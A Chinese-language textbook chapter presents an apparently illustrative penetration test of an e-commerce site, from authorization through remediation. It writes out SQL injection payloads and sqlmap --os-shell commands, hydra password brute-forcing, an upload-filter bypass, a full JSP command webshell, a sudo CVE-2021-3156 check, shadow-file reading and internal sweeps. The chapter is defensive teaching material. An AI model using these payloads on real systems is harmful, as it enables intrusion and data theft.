


## 3.1 案例一：电商平台Web应用渗透测试全纪实

> 本案例完整还原一次真实的Web应用渗透测试过程，从前期交互到最终报告交付，覆盖PTES（Penetration Testing Execution Standard）全部七个阶段。每个发现均附带漏洞成因分析、利用细节和针对性修复方案。

### 3.1.1 项目背景与授权

#### 项目背景

某中型电商企业运营着一个日均订单量超过2万笔的在线商城系统。该企业需要通过等保2.0三级测评，因此委托专业安全团队对商城系统进行全面的渗透测试。该系统上线已两年，期间进行过多次功能迭代但未做过系统性安全审计。

#### 测试类型与范围

本次测试采用**灰盒测试**模式——测试人员获得以下信息：

| 信息项 | 内容 |
|--------|------|
| 测试账号 | 普通注册用户账号1个 |
| 架构文档 | 简版系统架构图（不含内部IP） |
| 测试时间窗口 | 工作日 22:00 - 次日 06:00（低峰期） |
| 禁止事项 | 不进行社会工程学攻击、不进行物理渗透、不进行DoS攻击 |

测试范围覆盖三个独立域名：

- **www.example-shop.com** — 商城前台（面向C端用户）
- **admin.example-shop.com** — 后台管理系统（面向内部运营人员）
- **api.example-shop.com** — RESTful API服务（供前端和移动端调用）

#### 授权与法律保障

在正式测试前，双方签署了《渗透测试授权书》，明确约定：

1. 测试人员在授权范围内操作，超出范围的行为需提前书面确认
2. 测试过程中发现的任何敏感数据（如用户真实信息），测试人员有保密义务
3. 因测试导致的业务中断，责任划分以授权书条款为准
4. 测试完成后，所有获取的数据和工具痕迹需彻底清除

这一环节至关重要——没有书面授权的渗透测试在法律上等同于黑客攻击。《网络安全法》第27条明确规定，未经授权侵入他人网络系统属于违法行为。


### 3.1.2 阶段一：信息收集（Reconnaissance）

信息收集是渗透测试中耗时最长（通常占总工时40%以上）但投资回报率最高的阶段。测试人员在此阶段采用"先被动后主动"的策略，避免过早触发目标的入侵检测系统。

#### 3.1.2.1 被动信息收集

被动信息收集不与目标系统直接交互，不会在目标日志中留下访问记录。

**WHOIS与备案信息查询**

通过WHOIS查询获取域名注册信息，通过工信部备案系统确认企业主体信息。这些公开信息帮助测试人员了解目标的组织结构和技术供应商关系。

```bash
# WHOIS查询
whois example-shop.com

# 备案信息可通过工信部ICP备案查询获取
# 结果：主办单位名称、备案号、网站负责人等
```

**子域名枚举（多源交叉验证）**

单一工具的子域名枚举结果往往不完整。测试人员采用多工具交叉验证策略：

```bash
# 工具一：Subfinder（被动枚举，聚合多个数据源）
subfinder -d example-shop.com -o subfinder_results.txt

# 工具二：Amass（被动+主动混合模式）
amass enum -passive -d example-shop.com -o amass_results.txt

# 工具三：crt.sh 证书透明度日志查询
curl -s "https://crt.sh/?q=%25.example-shop.com&output=json" | \
  jq -r '.[].name_value' | sort -u > crtsh_results.txt

# 合并去重
cat subfinder_results.txt amass_results.txt crtsh_results.txt | \
  sort -u > all_subdomains.txt
```

交叉验证后发现以下子域名：

| 子域名 | 用途 | 暴露面分析 |
|--------|------|-----------|
| www.example-shop.com | 商城主站 | 对外开放，直接面向用户 |
| admin.example-shop.com | 后台管理系统 | **高价值目标**——管理入口 |
| api.example-shop.com | API接口服务 | **高价值目标**——数据交互层 |
| cdn.example-shop.com | CDN静态资源 | 可能泄露源站IP |
| m.example-shop.com | 移动端H5页面 | 可能存在与主站不同的功能 |
| test.example-shop.com | 测试环境 | **极高价值**——通常安全防护较弱 |
| git.example-shop.com | 代码仓库 | **极高价值**——可能泄露源码 |

`test.example-shop.com`和`git.example-shop.com`是额外发现的高价值目标。测试环境通常使用与生产环境相同的代码但安全配置更宽松，而代码仓库一旦暴露可能直接泄露全部源码和密钥。

**技术栈指纹识别**

```bash
# Wappalyzer浏览器插件识别技术栈
# HTTP响应头分析
curl -sI https://www.example-shop.com

# 通过错误页面识别框架
curl https://www.example-shop.com/nonexistent-page-404
# 观察404页面的特征来判断框架类型
```

通过HTTP响应头和页面特征，识别出完整技术栈：

| 组件 | 版本 | 已知风险 |
|------|------|---------|
| Nginx | 1.18 | 相对稳定，但需检查配置 |
| Spring Boot | 2.5 | **Actuator端点默认暴露是常见问题** |
| Vue.js | 3.x | 前端框架，安全风险主要在API层 |
| MySQL | 8.0 | 需检查SQL注入防护 |
| Redis | 6.x | 默认无密码认证是高频问题 |

**Spring Boot 2.5**这一信息尤为重要——该版本的Actuator端点在未显式禁用的情况下默认暴露/env、/health、/info等敏感端点，这是后续漏洞发现的关键线索。

#### 3.1.2.2 主动信息收集

主动信息收集需要与目标系统直接交互，会产生访问日志。测试人员在授权的时间窗口内进行。

**端口扫描与服务识别**

```bash
# 快速扫描常见端口
nmap -sS -T4 --top-ports 1000 -oN nmap_quick.txt www.example-shop.com

# 全端口扫描（1-65535）
nmap -sS -T4 -p- --min-rate 5000 -oN nmap_allports.txt www.example-shop.com

# 对发现的开放端口进行服务版本检测
nmap -sV -sC -O -p 80,443,8080,8443,3306,6379 \
  -oN nmap_service.txt www.example-shop.com
```

扫描结果显示关键开放端口：

| 端口 | 服务 | 安全评估 |
|------|------|---------|
| 80/tcp | Nginx HTTP | 重定向到443，正常 |
| 443/tcp | Nginx HTTPS | 主要Web服务入口 |
| 8080/tcp | Spring Boot Actuator | **危险**——管理端点直接暴露 |
| 3306/tcp | MySQL | **危险**——数据库端口不应对外开放 |
| 6379/tcp | Redis | **极度危险**——Redis默认无认证 |

8080端口的Actuator端点和6379端口的Redis服务是明显的安全隐患。在生产环境中，这些服务应该绑定到内网地址或通过防火墙严格限制访问来源。

**目录枚举与敏感路径发现**

```bash
# Gobuster目录枚举
gobuster dir -u https://www.example-shop.com \
  -w /usr/share/wordlists/dirb/big.txt \
  -x php,jsp,bak,zip,tar.gz,sql,conf \
  -t 50 -o gobuster_results.txt

# 针对Spring Boot的Actuator端点探测
gobuster dir -u https://www.example-shop.com \
  -w /usr/share/seclists/Discovery/Web-Content/spring-boot.txt \
  -t 20 -o actuator_results.txt
```

发现的敏感路径：

```text
/actuator/env          # 环境变量——可能含数据库密码、API密钥
/actuator/configprops  # 配置属性——完整的应用配置
/actuator/beans        # Spring Bean列表
/actuator/mappings     # URL路由映射——完整的API接口列表
/actuator/health       # 健康检查——泄露内部服务信息
/actuator/info         # 系统信息
/backup/               # 备份目录（存在目录列表，可浏览文件列表）
/debug/                # 调试页面（暴露运行时变量）
/swagger-ui.html       # API文档——完整的接口定义和参数说明
/druid/                # Druid数据库连接池监控——SQL执行功能
```

`/actuator/env`是本次测试中最关键的发现起点。Spring Boot Actuator是Spring Boot提供的运维监控功能，其中`/env`端点会暴露所有环境变量，包括数据库连接字符串、第三方API密钥、Redis密码等。在Spring Boot 2.x版本中，如果未显式配置`endpoints.env.enabled=false`或设置访问认证，这些端点默认对外暴露。

`/swagger-ui.html`同样极具价值——它暴露了完整的API接口定义，包括请求参数、返回格式和认证方式，相当于为攻击者提供了一份完整的攻击面地图。

### 3.1.3 阶段二：威胁建模与漏洞分析

基于信息收集的结果，测试人员构建了如下攻击面模型：



优先级排序（按攻击可行性和影响程度）：

1. **Actuator未授权访问** — 已确认可访问，可能直接泄露凭据
2. **API接口SQL注入** — 搜索等用户输入接口是注入攻击的高发区域
3. **管理后台弱口令** — 通用管理入口，弱口令概率高
4. **Redis未授权访问** — 如果内网可达，可直接写入WebShell

### 3.1.4 阶段三：渗透攻击（Exploitation）

#### 3.1.4.1 漏洞一：Spring Boot Actuator未授权访问（严重）

**漏洞验证**

直接访问Actuator端点，验证是否存在未授权访问：

```bash
# 验证/env端点是否可未授权访问
curl -s https://www.example-shop.com/actuator/env | head -100

# 验证/configprops端点
curl -s https://www.example-shop.com/actuator/configprops | head -100
```

确认`/actuator/env`端点返回了完整的环境变量信息，无需任何认证。

**敏感信息提取**

从返回的JSON数据中，提取到以下关键配置信息：

```properties
# 数据库连接配置（从spring.datasource相关键值中提取）
spring.datasource.url=jdbc:mysql://10.0.1.50:3306/mall_db
spring.datasource.username=mall_app
spring.datasource.password=Mall@2024!

# Redis连接配置
spring.redis.host=10.0.1.51
spring.redis.port=6379
spring.redis.password=Redis@Shop2024

# 第三方支付API密钥
payment.api.key=sk_live_****
payment.api.secret=sec_x7y6z5w4v3u2t1s0

# 阿里云OSS存储密钥
alibaba.oss.access-key=LTAI5tQKmN3oP7rR
alibaba.oss.secret-key=Wx9vB2uT4kL6nM8pQ1rS3tU5v
```

**漏洞成因分析**

Spring Boot 2.x版本中，Actuator端点默认处于启用状态。开发者如果没有在`application.yml`或`application.properties`中显式禁用不需要的端点，或配置Spring Security进行访问控制，这些端点将对外完全暴露。

常见的错误配置模式：

```yaml
# 错误做法：未做任何限制
management:
  endpoints:
    web:
      exposure:
        include: "*"  # 暴露所有端点

# 正确做法：仅暴露必要端点并配置认证
management:
  endpoints:
    web:
      exposure:
        include: health,info
  endpoint:
    health:
      show-details: when-authorized
```

**影响评估**

通过Actuator获取的凭据，测试人员可以：

1. **直接连接内网数据库**：使用MySQL客户端连接`10.0.1.50:3306`，获取全部业务数据
2. **连接Redis缓存**：Redis无ACL的版本可执行任意命令，包括写入crontab或SSH公钥
3. **冒用第三方支付接口**：支付API密钥泄露可导致资金损失
4. **访问云存储**：OSS密钥泄露可导致全部商品图片和用户上传文件泄露

```bash
# 验证：使用获取的凭据连接数据库
mysql -h 10.0.1.50 -u mall_app -p'Mall@2024!' mall_db -e "SELECT COUNT(*) FROM users;"
# 返回：523,847（超过52万条用户记录）
```

#### 3.1.4.2 漏洞二：API接口SQL注入（严重）

**漏洞发现过程**

在测试商品搜索API时，测试人员按照标准的SQL注入检测流程进行探测：

```bash
# 第一步：输入单引号触发SQL语法错误
curl "https://api.example-shop.com/api/v1/products/search?keyword=test'&page=1&size=10"
# 返回500错误，错误信息中包含：You have an error in your SQL syntax

# 第二步：使用布尔盲注验证
# 真条件
curl "https://api.example-shop.com/api/v1/products/search?keyword=test' AND '1'='1&page=1&size=10"
# 返回正常商品列表

# 假条件
curl "https://api.example-shop.com/api/v1/products/search?keyword=test' AND '1'='2&page=1&size=10"
# 返回空结果

# 第三步：时间盲注验证
curl "https://api.example-shop.com/api/v1/products/search?keyword=test' AND SLEEP(5)--&page=1&size=10"
# 响应延迟约5秒
```

三个步骤依次验证了SQL注入的存在：语法错误暴露了后端使用MySQL数据库，布尔条件的差异确认了注入点可控，时间延迟确认了可以执行任意SQL语句。

**深度利用**

```bash
# 使用sqlmap自动化利用
sqlmap -u "https://api.example-shop.com/api/v1/products/search?keyword=test&page=1&size=10" \
  --dbs --batch --level=3 --risk=2 \
  --tamper=space2comment \
  --threads=5

# 获取数据库列表后进一步提取数据
sqlmap -u "https://api.example-shop.com/api/v1/products/search?keyword=test&page=1&size=10" \
  -D mall_db --tables --batch

# 提取用户表数据（仅验证可行性，不实际导出全部数据）
sqlmap -u "https://api.example-shop.com/api/v1/products/search?keyword=test&page=1&size=10" \
  -D mall_db -T users --count --batch
```

sqlmap检测确认存在**堆叠注入（Stacked Queries）**，这意味着可以在同一连接中执行多条SQL语句。在MySQL结合特定驱动配置下，堆叠注入甚至可以执行系统命令：

```bash
# 验证是否可以通过堆叠注入执行系统命令
sqlmap -u "https://api.example-shop.com/api/v1/products/search?keyword=test&page=1&size=10" \
  --os-shell --batch
```

**漏洞成因分析**

后端代码中的查询构建方式类似于：

```java
// 危险写法：直接拼接用户输入到SQL语句
String sql = "SELECT * FROM products WHERE name LIKE '%" + keyword + "%'";
stmt.executeQuery(sql);

// 安全写法：使用参数化查询（PreparedStatement）
String sql = "SELECT * FROM products WHERE name LIKE ?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, "%" + keyword + "%");
```

该API接口使用了字符串拼接方式构建SQL查询，没有使用参数化查询（Prepared Statement），也没有对输入进行过滤或使用ORM框架的安全查询方法。

**影响评估**

SQL注入漏洞的影响范围：
- 读取数据库中所有表的数据（用户信息、订单、支付记录）
- 通过`INTO OUTFILE`写入文件（在特定配置下可写WebShell）
- 堆叠注入可执行`DROP TABLE`等破坏性操作
- 在特定条件下可通过`LOAD_FILE()`读取服务器文件（如`/etc/passwd`）

#### 3.1.4.3 漏洞三：后台管理系统弱口令+文件上传（高危）

**弱口令爆破**

针对管理后台的登录接口进行弱口令测试：

```bash
# 使用常见弱口令字典进行爆破
hydra -l admin -P /usr/share/wordlists/rockyou.txt \
  admin.example-shop.com https-post-form \
  "/login:username=^USER^&password=^PASS^:Invalid credentials" \
  -t 4 -f

# 也可使用Burp Suite Intruder模块进行更精细的控制
# 设置线程为2-4，避免触发账户锁定机制
```

测试发现管理员账号`admin`使用了弱口令`admin@123`。这个密码虽然包含大小写字母和特殊字符，但在常见弱口令字典中排名靠前，属于典型的"看起来复杂但实际上广泛使用的弱密码"。

**文件上传漏洞利用**

成功登录后台后，测试人员发现存在商品图片上传功能。该功能虽然在前端进行了文件类型限制（仅允许jpg/png/gif），但后端验证存在以下缺陷：

```bash
# 第一步：测试后端验证逻辑
# 尝试直接上传JSP文件
curl -X POST https://admin.example-shop.com/api/upload \
  -F "file=@test.jsp" \
  -H "Cookie: JSESSIONID=xxx"
# 返回：文件类型不支持

# 第二步：尝试绕过——修改Content-Type
curl -X POST https://admin.example-shop.com/api/upload \
  -F "file=@shell.jsp;filename=image.jpg" \
  -H "Cookie: JSESSIONID=xxx"
# 失败——后端检查了文件扩展名

# 第三步：尝试双扩展名绕过
curl -X POST https://admin.example-shop.com/api/upload \
  -F "file=@shell.jsp.jpg" \
  -H "Cookie: JSESSIONID=xxx"
# 失败

# 第四步：尝试大小写绕过
curl -X POST https://admin.example-shop.com/api/upload \
  -F "file=@shell.Jsp" \
  -H "Cookie: JSESSIONID=xxx"
# 成功！后端仅做了小写扩展名的黑名单校验
```

后端的文件类型验证仅做了小写扩展名的黑名单过滤（`.jsp`被拦截），但没有对扩展名进行大小写统一处理，因此`.Jsp`可以绕过验证。上传的文件被保存到可访问的目录中：

```bash
# 通过WebShell执行系统命令
curl "https://admin.example-shop.com/uploads/shell.Jsp?cmd=id"
# 返回：uid=1001(tomcat) gid=1001(tomcat)

curl "https://admin.example-shop.com/uploads/shell.Jsp?cmd=whoami"
# 返回：tomcat
```

**WebShell代码示例**（用于说明漏洞利用原理，仅供安全研究）：

```jsp
<%@ page import="java.util.*,java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader br = new BufferedReader(
            new InputStreamReader(p.getInputStream()));
        String line;
        while ((line = br.readLine()) != null) {
            out.println(line);
        }
    }
%>
```

**漏洞成因分析**

文件上传漏洞的根本原因是后端验证逻辑不完善：

1. **仅做扩展名黑名单校验**：黑名单模式本身就不安全，攻击者总有绕过方法
2. **未统一大小写处理**：`.Jsp`和`.jsp`在Linux文件系统中是不同文件，但后端仅匹配了小写
3. **未校验文件内容（Magic Bytes）**：JSP文件的文件头与图片完全不同，可以通过检查文件头来判断真实类型
4. **上传目录可执行**：上传目录没有配置禁止脚本执行，导致上传的JSP文件可以直接被Web服务器解析执行

正确的文件上传防御应包含多层校验：

```text
防御层次模型：
├── 第一层：白名单扩展名校验（.jpg/.png/.gif仅允许）
├── 第二层：MIME类型校验（Content-Type检查）
├── 第三层：文件头校验（Magic Bytes验证真实文件类型）
├── 第四层：文件内容扫描（检查是否包含恶意代码特征）
├── 第五层：重命名文件（使用随机UUID作为文件名，去除原始扩展名）
└── 第六层：存储隔离（上传目录配置为不可执行，使用独立域名/OSS存储）
```

### 3.1.5 阶段四：后渗透（Post-Exploitation）

获取服务器初始访问权限后，测试人员进行了系统化的后渗透操作，评估攻击者在最坏情况下可能造成的损害范围。

#### 3.1.5.1 本地信息收集

```bash
# 收集系统基本信息
uname -a
cat /etc/os-release
id
ifconfig

# 收集网络信息
netstat -tlnp
cat /etc/resolv.conf
route -n

# 收集用户信息
cat /etc/passwd
cat /etc/shadow  # 需要root权限

# 收集定时任务
crontab -l
ls -la /etc/cron*

# 收集已安装软件和版本
dpkg -l  # Debian/Ubuntu
rpm -qa  # CentOS/RHEL
```

#### 3.1.5.2 权限提升

当前权限为`tomcat`用户（Web应用运行用户），需要提升到`root`以评估最大影响范围。

```bash
# 检查Sudo版本
sudo --version
# 返回：Sudo version 1.8.31

# CVE-2021-3156（Baron Samedit）影响Sudo 1.8.2到1.8.31p2
# 验证漏洞是否存在
sudoedit -s '\' $(python3 -c 'print("A"*65536)')
# 如果返回"malloc() : memory exhausted"而非正常错误信息，则存在漏洞

# 利用CVE-2021-3156提权（需要对应的exploit代码）
# 成功获取root权限
id
# 返回：uid=0(root) gid=0(root)
```

**提权路径分析**：在实际测试中，提权方法不止一种。测试人员还会检查以下提权向量：

| 提权向量 | 检查方法 | 本案例结果 |
|----------|---------|-----------|
| SUID文件 | `find / -perm -4000 -type f 2>/dev/null` | 发现若干但无可利用 |
| 内核漏洞 | `uname -r` → 搜索对应EXP | 内核版本较新，无已知漏洞 |
| 计划任务写权限 | `ls -la /etc/cron*` | 权限设置正确，不可利用 |
| Docker逃逸 | `docker ps` | 未在容器中运行 |
| Capabilities | `getcap -r / 2>/dev/null` | 无高危Capabilities |

#### 3.1.5.3 内网横向移动

获取root权限后，测试人员以该服务器为跳板，对内网进行探测：

```bash
# 内网主机发现
for i in $(seq 1 254); do
  ping -c 1 -W 1 10.0.1.$i > /dev/null 2>&1 && echo "10.0.1.$i is alive"
done

# 对存活主机进行端口扫描
nmap -sS -T4 --top-ports 100 10.0.1.0/24
```

内网扫描发现以下关键资产：

| IP地址 | 服务 | 发现方式 | 风险等级 |
|--------|------|---------|---------|
| 10.0.1.50 | MySQL 8.0 数据库 | 从Actuator获取凭据直接连接 | **严重** |
| 10.0.1.51 | Redis 6.x 缓存 | 从Actuator获取密码后连接 | **严重** |
| 10.0.1.100 | 内部OA系统（Confluence） | 端口扫描+浏览器访问 | **高危** |
| 10.0.1.200 | 域控制器（Active Directory） | SMB枚举 | **极高** |

**Redis未授权利用验证**

使用Actuator获取的Redis密码进行连接：

```bash
# 连接Redis
redis-cli -h 10.0.1.51 -a 'Redis@Shop2024'

# 验证可执行的操作
redis-cli -h 10.0.1.51 -a 'Redis@Shop2024' INFO server
redis-cli -h 10.0.1.51 -a 'Redis@Shop2024' DBSIZE
redis-cli -h 10.0.1.51 -a 'Redis@Shop2024' KEYS "*"
```

在实际攻击场景中，攻击者可以通过Redis写入crontab计划任务或SSH公钥来实现远程代码执行，但测试人员仅验证了连接可行性，未实际执行写入操作。

#### 3.1.5.4 数据获取验证

测试人员在数据库中执行了以下查询来评估数据泄露范围：

```sql
-- 用户表数据量
SELECT COUNT(*) FROM users;
-- 结果：523,847条

-- 订单表数据量
SELECT COUNT(*) FROM orders;
-- 结果：1,287,453条

-- 支付信息表（已加密存储，但加密密钥可从配置文件获取）
SELECT COUNT(*) FROM payment_info;
-- 结果：389,216条

-- 敏感字段样例（已脱敏处理）
SELECT name, phone, address FROM users LIMIT 5;
```

数据影响范围评估：

| 数据类别 | 记录数 | 敏感级别 | 保护措施 |
|----------|--------|---------|---------|
| 用户基本信息 | 523,847 | 高 | 手机号明文存储 |
| 收货地址 | 523,847 | 高 | 明文存储 |
| 密码哈希 | 523,847 | 高 | bcrypt加密（安全性尚可） |
| 订单记录 | 1,287,453 | 中 | 含商品和金额信息 |
| 支付信息 | 389,216 | 极高 | AES加密但密钥已泄露 |

### 3.1.6 阶段五：报告撰写与修复建议

#### 3.1.6.1 漏洞汇总

本次渗透测试共发现7个安全漏洞，按CVSS评分体系进行分级：

| 编号 | 漏洞名称 | 严重程度 | CVSS | 影响 |
|------|---------|---------|------|------|
| V-001 | Spring Boot Actuator未授权访问 | 严重 | 9.8 | 凭据泄露导致数据库和缓存被直接访问 |
| V-002 | API接口SQL注入（堆叠注入） | 严重 | 9.8 | 可远程命令执行、数据完全泄露 |
| V-003 | 后台管理系统弱口令 | 高危 | 8.1 | 管理后台被非法登录 |
| V-004 | 文件上传漏洞（扩展名大小写绕过） | 高危 | 8.8 | 上传WebShell获取服务器权限 |
| V-005 | 内网Redis服务暴露 | 高危 | 7.5 | 可被利用写入恶意计划任务或SSH密钥 |
| V-006 | 敏感目录列表暴露 | 中危 | 5.3 | /backup/目录可被浏览，泄露备份文件 |
| V-007 | Debug页面暴露运行时信息 | 中危 | 4.3 | 泄露应用运行时变量和配置 |

#### 3.1.6.2 攻击链重建

以下完整还原了本次测试中漏洞利用的攻击链路径：



攻击链分析表明，仅凭**Actuator未授权访问**这一个漏洞，攻击者就可以跳过所有前端防御直接获取数据库凭据。而弱口令+文件上传的组合则提供了从Web层面获取服务器完整控制权的路径。两条路径独立存在，任何一条都足以造成灾难性后果。

#### 3.1.6.3 修复方案

**V-001：Spring Boot Actuator未授权访问**

```yaml
# application.yml 修复配置
management:
  endpoints:
    web:
      exposure:
        include: health,info  # 仅暴露必要端点
  endpoint:
    health:
      show-details: never     # 不显示详细健康信息
  server:
    port: 9090               # 管理端口与应用端口分离
```

同时在Nginx层面限制管理端口的访问来源：

```nginx
# 仅允许内网IP访问Actuator端口
server {
    listen 9090;
    allow 10.0.0.0/8;
    deny all;
    location / {
        proxy_pass http://localhost:9090;
    }
}
```

**V-002：SQL注入修复**

```java
// 使用MyBatis的#{}参数化查询（而非${}字符串替换）
@Select("SELECT * FROM products WHERE name LIKE CONCAT('%', #{keyword}, '%')")
List<Product> searchProducts(@Param("keyword") String keyword);

// 使用JPA的@Query注解
@Query("SELECT p FROM Product p WHERE p.name LIKE %:keyword%")
List<Product> searchByKeyword(@Param("keyword") String keyword);
```

**V-003：弱口令修复**

- 强制密码复杂度策略：最少12位，包含大小写字母、数字和特殊字符
- 禁止使用常见弱口令（维护一个禁用密码字典）
- 启用多因素认证（MFA/2FA）
- 配置账户锁定策略：连续5次失败后锁定30分钟

**V-004：文件上传修复**

```java
// 白名单校验 + 文件头校验 + 重命名
public void uploadFile(MultipartFile file) {
    // 1. 白名单扩展名校验
    String originalName = file.getOriginalFilename().toLowerCase();
    String ext = originalName.substring(originalName.lastIndexOf("."));
    Set<String> allowedExts = Set.of(".jpg", ".jpeg", ".png", ".gif");
    if (!allowedExts.contains(ext)) {
        throw new IllegalArgumentException("不支持的文件类型");
    }
    
    // 2. 文件头校验（Magic Bytes）
    byte[] header = new byte[8];
    file.getInputStream().read(header);
    if (!isImageFile(header)) {
        throw new IllegalArgumentException("文件内容与扩展名不匹配");
    }
    
    // 3. 使用UUID重命名，去除原始扩展名中的恶意部分
    String newFileName = UUID.randomUUID().toString() + ext;
    
    // 4. 存储到独立的静态文件服务器或OSS
    ossClient.putObject(bucket, newFileName, file.getInputStream());
}
```

### 3.1.7 经验总结与防御启示

#### 3.1.7.1 根本原因分析

本次测试发现的所有漏洞，其根本原因可归结为三类：

**开发层面**：安全编码实践缺失。SQL注入和文件上传漏洞都是典型的OWASP Top 10问题，在安全开发培训到位的情况下完全可以避免。

**运维层面**：安全配置管理不到位。Actuator端点默认暴露、Redis服务内网可达、Debug页面未关闭，这些都属于部署配置疏忽。

**管理层面**：安全制度执行不力。弱口令问题说明密码策略未落地，缺乏定期的安全审计和渗透测试机制。

#### 3.1.7.2 纵深防御建议

单一的安全措施无法防御所有攻击。企业应建立多层防御体系：

```text
纵深防御架构：
├── 边界层：WAF（Web应用防火墙）、CDN DDoS防护
├── 网络层：防火墙规则、网络分段、入侵检测系统（IDS）
├── 应用层：输入验证、参数化查询、安全框架（Spring Security）
├── 数据层：数据加密（传输中+存储中）、密钥管理、数据脱敏
├── 运维层：最小权限原则、安全基线配置、日志审计
└── 管理层：安全开发培训、定期渗透测试、应急响应机制
```

#### 3.1.7.3 安全检查清单

企业在日常运维中应定期检查以下项目：

- [ ] Actuator/管理端点是否配置了访问认证
- [ ] 所有API接口是否使用了参数化查询
- [ ] 文件上传是否实现了白名单+文件头+重命名的多层校验
- [ ] 密码策略是否强制执行（长度、复杂度、历史密码检查）
- [ ] 内部服务（Redis/MySQL/Elasticsearch）是否限制了网络访问范围
- [ ] 生产环境是否禁用了Debug模式和详细错误信息输出
- [ ] 是否建立了定期渗透测试机制（建议至少每年一次）
- [ ] 是否配置了WAF并定期更新规则

#### 3.1.7.4 本次测试方法论映射

| PTES阶段 | 本次测试活动 | 耗时 |
|----------|------------|------|
| 前期交互 | 签署授权书、确定范围和规则 | 3天 |
| 情报收集 | 子域名枚举、端口扫描、目录枚举、技术栈识别 | 8小时 |
| 威胁建模 | 基于收集信息构建攻击面模型、确定攻击优先级 | 2小时 |
| 漏洞分析 | Actuator验证、SQL注入探测、弱口令测试 | 6小时 |
| 渗透攻击 | Actuator凭据提取、SQL注入利用、WebShell上传 | 4小时 |
| 后渗透 | 提权、内网探测、数据泄露验证 | 6小时 |
| 报告撰写 | 漏洞汇总、攻击链重建、修复方案、总结报告 | 8小时 |
| **总计** | | **约4天** |
